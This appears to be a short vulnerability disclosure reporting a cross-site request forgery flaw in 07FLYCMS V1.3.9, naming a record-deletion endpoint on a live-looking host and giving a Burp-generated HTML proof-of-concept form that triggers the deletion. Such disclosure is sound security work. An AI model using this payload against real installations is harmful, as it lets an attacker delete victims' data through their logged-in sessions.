 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/oa/OaLeave/del.html?id=18

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaLeave/del.html?id=18" method="POST">
      <input type="hidden" name="id" value="18" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```


